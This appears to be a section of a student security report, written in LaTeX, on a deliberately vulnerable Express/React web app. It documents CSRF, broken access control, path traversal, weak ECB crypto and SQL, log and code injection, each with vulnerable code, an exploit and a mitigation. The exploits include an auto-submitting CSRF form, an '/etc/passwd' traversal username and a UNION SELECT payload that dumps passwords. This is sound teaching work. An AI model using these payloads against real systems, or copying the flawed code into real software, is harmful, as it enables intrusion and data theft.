Access Control is considered broken when it is improperly configured or bypassed, leading to unauthorized access to resources or operations. Proper access control ensures that only authorized users can perform specific actions, adhering to the principle of least privilege. This principle dictates that any access or permission should be explicitly granted and that anything not explicitly allowed should be denied by default.

\subsubsection{CSRF (Cross-Site Request Forgery)}
\label{subsubsec:csrf_with_samesite_none_misconfiguration}
\textbf{Description:}  
\texttt{CSRF} (Cross-Site Request Forgery) is a vulnerability categorized under \textit{broken access control}, and the same for \texttt{Sensitive Cookie with Improper SameSite Attribute}. This attack occurs when a malicious website tricks an authenticated user into making unintended requests to a vulnerable web application. As a result, attackers can perform unauthorized actions on behalf of the user without their knowledge. A common cause of this vulnerability is the misconfiguration of the `SameSite` attribute in cookies. \\ 
The \texttt{SameSite} attribute has three possible values: `Strict`, `Lax` and `None`. When set to `None`, cookies can be sent with cross-site requests, which increases the risk of CSRF attacks. Note: setting to 'Lax' is dangerous too. 
\textbf{Vulnerable Code:}
CSRF vulnerability arises from the misconfiguration of the SameSite attribute. Below is shown such misconfiguration in the Express backend's cookie settings:

\begin{lstlisting}
cookie: {
    httpOnly: false,
    secure: false,
    sameSite: "None",
    maxAge: 3600000000
}
\end{lstlisting}
In this case, the `sameSite: "None"` configuration allows cookies to be sent in cross-origin requests, which can be exploited by attackers to perform malicious actions. The CORS configuration, often assumed to protect against CSRF, does not prevent such attacks. Even if CORS is configured securely (e.g., `origin: "http://frontend.example.com"`), CSRF can still occur through requests classified as "simple" by browsers, such as those originating from HTML forms. \\ 
\textbf{Exploitation:}
A malicious website hosted on a domain such as \texttt{malware.example2.com} can automatically (without using intervention) submit authenticated requests (so requests having session cookie) to the vulnerable backend. The attack does not perform preflight requests, bypassing CORS entirely, and browser automatically attaches the cookies due to the `SameSite=None` misconfiguration. \\ 
Here is an example of a malicious HTML form that exploits the vulnerability:

\begin{lstlisting}
// ... other code

useEffect(() => {
    // Automatically click the submit button when the component mounts
    submitButtonRef.current.click();
}

// ... other code

return(
    /* ... other code */

    <form action="http://backend.example.com/users/pendingRegistration" method="GET">
        <button hidden
            type="submit" 
            ref={submitButtonRef}
        >
            Submit
        </button>
    </form>
);

// ... other code
\end{lstlisting}
In this case, as soon as the user visits the malicious website, the form is submitted, and cookies (including session cookies) are automatically sent to \texttt{backend.example.com}, exploiting the authenticated session of the user. \\ 
\textbf{Mitigation:}  
To prevent CSRF attacks resulting from `SameSite=None` misconfigurations, there are some guidelines and suggestions:

\begin{enumerate}
    \item \textbf{Correct SameSite Configuration:}  
    Set the `SameSite` attribute of cookies to `Strict` for maximum security, preventing cookies from being sent with cross-origin requests.
    
    \item \textbf{Anti-CSRF Tokens:}  
    Implement anti-CSRF tokens to validate the authenticity of sensitive requests. These tokens should be stored client-side (e.g., in React) and validated on the server side. This prevents external websites from forging requests since they don't have access to the token.
    
    \item \textbf{Secure Subdomains:}  
    Be cautious of subdomain takeovers. Even with `SameSite=Strict`, an attacker who controls a subdomain of the same origin may still exploit authenticated sessions. Regular audits and security measures should be applied to all subdomains.
    
    \item \textbf{CORS Configuration:}  
    Although CORS does not directly prevent CSRF, limiting the \texttt{origin} to trusted domains is essential:
    \begin{lstlisting}
    const corsOptions = {
        origin: "http://frontend.example.com",
        credentials: true
    };
    \end{lstlisting}
    Additionally, ensure that you block requests with content types such as \texttt{application/x-www-form-urlencoded}, \texttt{multipart/form-data}, or \texttt{text/plain}, which are classified as "simple" requests by browsers and do not trigger CORS preflight checks.
\end{enumerate}
\textbf{Testing Environment:}
   To correctly test this vulnerability, you cannot use 'localhost' because the websites would seem all in the same domain. For a more realistic test, we used 'nginx' and '/etc/hosts' file to simulate cross-origin requests and test CSRF defenses. For instance, redirect \texttt{frontend.example.com} to \texttt{localhost:3000} React frontend, \texttt{backend.example.com} to \texttt{localhost:3001} Express backend, and \texttt{malware.example2.com} to \texttt{localhost:3002} for testing. We added these files into the \texttt{Exploit} git repo.


\subsubsection{Improper Access Control}
\label{subsubsec:improper_access_control}

\textbf{Description:} The vulnerability belongs to the category of {\it broken access control}, it occurs when the access to a resource is not correctly restricted from an unauthorized actor. 
\\ 
\textbf{Vulnerable code:} The code is contained in the \texttt{routes/transactions.js} file of the Express backend. The function calls the database
API {\it getAllTransactions} without checking if the user that sends the GET request \texttt{/getAll} is authorized.

\begin{lstlisting}
router.get("/getAll", function (req, res) { 
    dbapi.getAllTransactions()
    .then((rows) => {
        if (rows!==undefined)
            res.status(200).send(JSON.stringify(rows));
        else
            res.status(500).send();
    })
    .catch(() => {
        res.status(500).send();
    }); 
});
\end{lstlisting}
\textbf{Exploitation:} This vulnerability can be exploited to get the list of all the transactions. The script used to perorm the exploit contains the
following lines of code, that are used to send the GET request to the server.

\begin{lstlisting}
url = "http://localhost:3001/transactions/getAll"
response = requests.get(url)
\end{lstlisting}
\textbf{Mitigation:} To fix this vulnerability is needed to insert a control before calling the database API in order to verify that who is sending the 
GET request is authenticated and that has the privileges to do this operation.

\subsubsection{Improper Limitation of a Pathname to a Restricted Directory}
\label{subsubsec:improper_limitation_of_a_pathname_to_a_restricted_directory}

\textbf{Description:} This vulnerability belongs to the category of {\it broken access control}, it is caused by improper sanitization of an external 
input which is used to construct a pathname used to retrieve a resource.
\\ 
\textbf{Vulnerable code:} The code is contained in the \texttt{routes/transactions.js} file of the Express backend. At line 3, the username is used to generate the 
path of a resource which is downloaded by the user who sent the GET request to the server. The sanitization is performed using the \texttt{replace()} function 
which only replaces the first occourrence.
\begin{lstlisting}
router.get("/transactionsFile", function(req, res) {
    if (req.session.user !== undefined && req.session.user.role === "user") {
        const path = pt.join("src/files/" + req.session.user.username.replace("\n", ""));
        res.download(path);
    }
    else {
        res.status(401).send();
    } 
});    
\end{lstlisting}
\textbf{Exploitation:} This vulnerability can be exploited by an attacker to download any file stored in the server. The attacker firstly need to register
an user with a specific username, for example \texttt{../../../../../../etc/passwd}, then it has to perform the login and to send the GET request to the 
server to download the required file. This can be easily achieved entering \texttt{http://localhost:3001/transactions/transactionsFile} in the browser search bar. 
Changing the username it is possible to gain access to any file stored in the server. 
\\
\textbf{Mitigation:} The vulnerability can be fixed sanitazing correctly the username or avoid using the username as part of the filename.

\subsubsection{Forced Browsing}
\textbf{Description:} Forced browsing is an attack where the aim is to enumerate and access resources that are not referenced by the application, but are still accessible. \\ 
\textbf{Vulnerable code:} In \texttt{authentication.js} (server):
\begin{lstlisting}
router.post("/registration", function (req, res) {
    // ...
    if (req.body.role === "seller") {
        // ...
    } else {    
        dbapi.addUser(req.body.username, req.body.password, req.body.role, "false")
            .then(() => {
                res.status(201).send();
            })
            .catch(() => {
                res.status(500).send();
            });
    }
});
\end{lstlisting}
\textbf{Exploitation:} The endpoint expects a parameter in the request body that corresponds to the user's role. This role is represented in the front-end with a checkbox (a user can choose whether to register a user account or a seller account). A malicious user could bypass the appropriate form and write a new registration request with the "admin" role and send it to the server, thus acquiring an account with full privileges.
\begin{center}

\includegraphics[width=7cm]{images/tamp.eps}
\end{center}
\textbf{Mitigation:} As a countermeasure to this attack, the function could be modified so that in the else branch the parameter is not what the user enters but directly the string "user", like this:
\begin{lstlisting}
router.post("/registration", function (req, res) {
    // ...
    if (req.body.role === "seller") {
        // ...
    } else {    
        dbapi.addUser(req.body.username, req.body.password, "user", "false")
            // ...
    }
});
\end{lstlisting}
Furthermore, one could think of registering an administrative user, checking appropriately that it is done by an already existing admin user.
\begin{lstlisting}
router.post("/registration", function (req, res) {
    // ...
    if (req.body.role === "seller") {
        // ...
    } else if (req.body.role === "user") {
			  // ... 
		} else if (req.body.role === "admin") {
			  if (req.session.user.role !== "admin") {
				  return res.status(401); /*Unauthorized*/
				}
			  // ...
		}
		else { return res.status(400)  /* bad request*/ }
});
\end{lstlisting}

\subsubsection{URL Parameter Tampering}
\textbf{Description:} The  URL Parameter Tampering is a type of Web Parameter Tampering attacks. It is based on the manipulation of query string parameters that are part of the URL.\\ 
\textbf{Vulnerable code:}
In \texttt{editUserProfile.js} there is no check that ensures that the userid specified in the url matches the userid of the currently logged in user.
In \texttt{authentication.js} the \texttt{/user/:id} endpoint allows to retrieve confidential user data without verifying the identity of the requester:
\begin{lstlisting}
router.get("/user/:id", function (req, res) {
    // user data from id
    dbapi.getUserById(req.params.id).then((user) => {
        if (user) {
            res.status(200).send(JSON.stringify({ id: user.id, username: user.username, role: user.role, balance: user.balance }));
        }
        else {
            res.status(404).send();
        }
    }).catch(() => {
        res.status(500).send();
    });
})
\end{lstlisting}
\textbf{Exploitation:} Any user can make requests to that endpoint, and view and/or modify sensitive data of other users.\\
\textbf{Mitigation:} A check must be put in place to verify whether the person requesting that specific endpoint is an admin or the user logged in at that moment, and therefore authorized:
\begin{lstlisting}
if(!req.session || !req.session.user || !(req.session.user.id === req.params.id || req.session.user.role === "admin")){
        return res.status(401).send(JSON.stringify({msg: "Unauthorized"}))
    }
\end{lstlisting}

\subsection{Cryptographic failures}
Cryptographic failures occur when encryption or cryptographic methods are either incorrectly implemented or neglected. These failures compromise the protection of sensitive data, leading to potential breaches and unauthorized access. Issues often involve the use of outdated or weak algorithms, improper key management, or inadequate encryption of data. Effective cryptography requires both correct application and regular updates to ensure robust security.

\subsubsection{Use of a Broken or Risky Cryptographic Algorithm}
\label{subsubsec:use_of_a_broken_or_risky_cryptographic_algorithm}
\textbf{Description:} This vulnerability belongs to the category of {\it cryptographic failures}, and it is caused by the use of a broken or risky cryptographic algorithm. \\ 
\textbf{Vulnerable code:} The code is contained in the \texttt{crypto.js} file of the React frontend. The data needed to recharge the user's wallet are encrypted 
using AES-128 in ECB mode, the data format is ("rechargeUsWallet",username,amount). The first element is a fixed string, the data are encrypted using as key the 
SHA-256 digest of the seller's password truncated to 128 bits. 
\begin{lstlisting}
const symmetricEncryption = (plaintext, pwdHash) => {
	const key = pwdHash.substring(0,32)  
	const keyHex = crypto.Buffer.from(key, "hex");  
 	const cipher = crypto.createCipheriv("aes-128-ecb", keyHex, "").setAutoPadding(false);
  	let ciphertext = cipher.update(addPadding(plaintext), "utf-8", "base64");
  	ciphertext += cipher.final("base64");
  	return ciphertext;
}
\end{lstlisting}
\textbf{Exploitation:} This vulnerability can be exploited to obtain the password of the user. First of all the attacker needs 
to precompute a file containing for each row a password, the corresponding encryption key and the encrypted string \texttt{"rechargeUsWallet"} 
using AES-128 in ECB mode. If he is able to obtain the encrypted transaction data, he just needs to perform a lookup in the precomputed file 
to find the row corresponding to the encrypted data and to get the password used for encryption. This is possible because the string has the 
size of one block and in ECB mode each block is encrypted independently of the others using the same key. 
\\ 
\textbf{Mitigation:} To fix this vulnerability is needed to use an operating mode like CBC or CTR, which need an initialization vector that makes unfeasible 
the use of a precomputation attack.

\subsubsection{Cleartext Transmission of Sensitive Information}
\label{subsubsec:cleartext_transmission_of_sensitive_information}

\textbf{Description:} This vulnerability belongs to the category of {\it cryptographic failures}, it is caused by sending in cleartext sensitive data
in a communication channel that can be sniffed by unauthorized actors.
\\ 
\textbf{Vulnerable code:} The code is contained in the \texttt{api/authentication.js} file of the React frontend. It is used by the frontend to sent 
the user login credential to the backend. Since HTTP is used, the username and password are sent in cleartext.
\begin{lstlisting}
export function login(username, password) {
  return new Promise((resolve, reject) => {
    fetch(`http://localhost:3001/authentication/login`, {
      method: "POST",
      headers: { "Content-Type": "application/json" },
      body: `{"username": "${username.replace('"', "'")}", "password": "${password.replace('"', "'")}"}`, // admin account is admin admin
      credentials: 'include'
    })
      .then((res) => {
        if (res.status === 200) {
          resolve(res);
        } else {
          reject(res);
        }
      })
      .catch((err) => {
        reject(err);
      });
  });
}    
\end{lstlisting}
\textbf{Exploitation:} This vulnerability can be exploited by an attacker sniffing the packet exchanged during the login and retrieving the credentials.
\vspace{5pt}
\begin{center}

\includegraphics[width=\textwidth]{sensitive_data_exposure.eps}
\end{center}
\textbf{Mitigation:} The vulnerability can be fixed using HTTPS to create a secure channel between the frontend and the backend.

\subsection{Injection}

Injection flaws occur when an attacker sends malicious data to an interpreter, leading to unintended execution or data manipulation. Key types include SQL Injection, PHP Injection, and Script Injection (e.g., XSS), each exploiting specific vulnerabilities in data handling.

\subsubsection{SQL Injection}
An SQL injection attack involves the insertion or “injection” of an SQL query through incoming data from the client to the application. A successful SQL injection exploit can read/edit/delete sensitive data from the database, perform administration operations on the database, and in some cases issue commands to the operating system. In general, SQL injection is considered a high-impact severity.
\\ \textbf{Vulnerable code:} \\
In \texttt{api.js}: 
\begin{lstlisting}
exports.getSellerByUsername = (usernamesToSearch) => {
	return new Promise((resolve, reject) => {
		const likeConditions = usernamesToSearch.map(pattern => `username LIKE "%${pattern}%"`).join(" OR ");
		const query = `SELECT id, username, address FROM users WHERE role = "seller" and ${likeConditions}`;
		winston.debug("getSellerByUsername query", { query })
		db.all(query, [], (err, rows) => {
			if (err) {
				reject(err);
			}
			else if (rows === undefined) {
				resolve([]);
			}
			else {
				resolve(rows);
			}
		});
	});
}
\end{lstlisting}
The vulnerable part of the function is in the use of string concatenation (lines 3-4) without input sanitization. This allows an attacker to use SQL constructs to obtain and/or manipulate sensitive data. \\ 
\textbf{Exploitation:} An attacker, instead of searching for the seller's information in the appropriate form, could use the string \texttt{"UNION SELECT id, username, password FROM users WHERE "1"="1" --} as input to get the tuples (id, username, password) from the database. \\
An example of the results with the above mentioned string can be seen in the following image
\begin{center} 
\includegraphics[width=13cm]{images/sql_inj.eps} 
\end{center}
\textbf{Mitigation:} \\ Use library-provided sanitization:
\begin{lstlisting}
//../
  const likeConditions = usernamesToSearch.map(_ => `username LIKE ?`).join(" OR ");
  usernamesToSearch = usernamesToSearch.map((it) => `%${it}%`)

  const query = `SELECT id, username, address FROM users WHERE role = "seller" and ${likeConditions}`;
  // ...
  db.all(query, usernamesToSearch, (err, rows) => {
	// ...
}
\end{lstlisting}
The \texttt{?} is the placeholder used by the library sqlite3. The \texttt{db.all()} function takes as its first two parameters the query and the list of values to be sanitized and inserted where the placeholder is.

\subsubsection{Log Injection}
Writing invalidated user input to log files can allow an attacker to forge log entries or inject malicious content into the logs. This is called log injection. Log injection vulnerabilities occur when:
\begin{itemize}
    \item Data enters an application from an untrusted source.
    \item The data is written to an application or system log file.
\end{itemize}
Successful log injection attacks can cause:
\begin{itemize}
    \item Injection of new/bogus log events (log forging via log injection)
    \item Injection of XSS attacks, hoping that the malicious log event is viewed in a vulnerable web application
    \item Injection of commands that parsers (like PHP parsers) could execute
\end{itemize}
\textbf{Vulnerable code:} \\
In authentication.js:
\begin{lstlisting}
router.post("/login", function (req, res) {
    dbapi.checkCredentials(req.body.username, req.body.password)
        .then((result) => {
            if (result.pending_registration === "false") {
                req.session.user = result;                                                                  
                res.status(200)
                    .cookie("passwordHash", result.passwordHash)
                    .cookie("username", req.body.username, { httpOnly: false }).send(JSON.stringify(result));
                winston.info(`login success by ${req.body.username}`);
            }
            else {       // otherwise:
                res.status(401).send();
                winston.info(`login failed by ${req.body.username}`);
            }
        })
        .catch(() => {
            winston.info(`login failed by ${req.body.username}`);
            res.status(500).send();
        })
});
\end{lstlisting}
A user-entered data is inserted into the log files, compromising their integrity.
\\ \textbf{Exploitation:} \\ A simple example would be a user logging in by entering in the username field:
\texttt{"user\textbackslash ninfo: login success by badactor"}
\begin{figure}[h]

\includegraphics[width=8cm]{images/log_inj.eps}
\centering
\end{figure}
\\ \textbf{Mitigation:} \\
User input should be encoded before it is logged. If the log entries are plain text then line breaks should be removed from user input (e.g. using string.replace) and it should be clearly marked in log entries.

\subsubsection{Code Injection}
\textbf{Description:} Code Injection is the general term for attack types which consist of injecting code that is then interpreted/executed by the application. This type of attack exploits poor handling of untrusted data. These types of attacks are usually made possible due to a lack of proper input/output data validation.
\\ \textbf{Vulnerable code:} In \texttt{authentication.js}:
\begin{lstlisting}
            fetchPDF(req.body.sellerPDFUrl)
                .then(pdfBuffer => {
                    dbapi.addSeller(req.body.username, req.body.password, req.body.address, "seller", "true", req.body.webpage, req.body.filename, pdfBuffer)
                        .then(() => {
                            res.status(201).send(JSON.stringify({ "pdfBuffer": pdfBuffer, "filename": req.body.filename }));  // oops
                        })
                })
\end{lstlisting}
In these lines, the server downloads the pdf from the url entered by a client. The vulnerability is that there is no control over what is being downloaded so the malicious client can insert any file that will be saved inside the server database.
\\ \textbf{Exploitation:} The attacker in this attack could insert a link that instead of redirecting to a PDF file, redirects to a \texttt{.vbs} file containing malicious code. For example:
\begin{lstlisting}
MsgBox "You've been Hacked!" & vbCrLf,262192, "You have a new Message"
\end{lstlisting}
When a user downloads the \texttt{.vbs} file and attempts to open it, the code inside will be executed.
The result is the following:
\begin{center}

\includegraphics[width=8cm]{images/code_inj.eps}
\end{center}
